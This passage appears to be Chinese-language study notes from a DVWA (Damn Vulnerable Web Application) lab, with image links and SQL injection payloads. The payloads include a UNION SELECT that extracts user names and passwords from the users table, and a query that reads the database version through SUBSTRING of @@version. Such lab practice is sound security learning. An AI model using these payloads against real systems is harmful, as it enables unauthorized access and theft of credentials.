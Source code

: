 ![參考 google](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2076.png)

參考 google

```bash
0' UNION SELECT first_name,password FROM users WHERE user_id <>'
```

```bash
0' UNION SELECT first_name,password FROM users WHERE user_id <>'
```

```jsx
SELECT SUBSTRING((select @@version), 5, 3) AS ExtractString;
```

```sql
0' UNION SELECT 1,SUBSTRING((select @@version), 1, 20)'
```

這是在非 blind injection 查詢 db version 的結果

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2077.png)

